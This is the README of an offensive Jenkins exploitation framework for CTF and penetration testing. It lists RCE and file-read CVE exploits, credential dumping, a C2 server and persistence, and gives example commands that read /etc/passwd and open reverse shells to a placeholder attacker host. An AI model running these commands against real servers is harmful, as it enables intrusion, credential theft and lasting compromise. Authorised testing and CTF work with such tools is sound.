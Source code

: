 # JenkinsBreaker 🏴‍☠️  
An Advanced Python Offensive Security Framework for Jenkins Exploitation in CTF and Pentesting Scenarios  

---

## 🚀 Features  

- ✅ **Automated Enumeration & Exploitation** (`--auto` mode)  
- ✅ **Exploit Critical CVEs**:  
  - CVE-2019-1003029 / CVE-2019-1003030 – *Groovy Script RCE*  
  - CVE-2024-23897 – *Arbitrary File Read via CLI*  
  - CVE-2025-31720 / CVE-2025-31721 / CVE-2025-31722 – *Custom & Upcoming CVEs Included*  
- ✅ **Reverse Shell Payload Generation** (Bash, Python, Groovy, PowerShell, Metasploit Compatible)  
- ✅ **AWS Credential Dumping & Secrets Scanning**  
- ✅ **CSRF Crumb Handling & Automation**  
- ✅ **JWT Token Brute-Forcing and Analysis**  
- ✅ **Post-Exploitation Recon Automation** (Auto Upload & Execute linPEAS, pspy)  
- ✅ **Report Generation**: JSON, Markdown, PDF (via WeasyPrint)  
- ✅ **Built-in C2 Server (FastAPI) & Interactive WebSocket Shell**  
- ✅ **Persistence Techniques** (Cron Jobs, Jenkins Pipelines)  
- ✅ **Modular Exploit Loading** (`exploits/` Directory)  

---

## 📅 Coming Soon (Planned Features)  

- 🖥️ **Full Visual Interface** (TUI & Web UI) using *textual* and *fastapi*  
- 🎯 **Enhanced Plugin Fuzzer** with *ML-Based Misconfiguration Detection*  
- 📊 **Interactive Dashboards** for Exploit Results and Reporting  

---

## 📦 Installation  

```bash
git clone https://github.com/ridpath/heaplessNights.git
cd heaplessNights/JenkinsBreaker
python3 JenkinsBreaker.py --help  # Auto-creates virtualenv and installs dependencies
```
```bash
##⚔️ Example Usage
Automatic Enumeration & Exploitation:
python3 JenkinsBreaker.py --url http://TARGET_IP:8080 --auto --lhost YOUR_IP --lport 4444

Run Specific CVE Exploit:
python3 JenkinsBreaker.py --url http://TARGET_IP:8080 --exploit-cve --target-file /etc/passwd

Generate a Reverse Shell:
python3 JenkinsBreaker.py --generate-shell bash --lhost YOUR_IP --lport 4444

List All Available Commands:
python3 JenkinsBreaker.py --help-commands
```
## 📖 Note
This tool is under active development. A full-fledged UI will soon make managing exploits and post-exploitation workflows more intuitive. Stay tuned for upcoming releases!





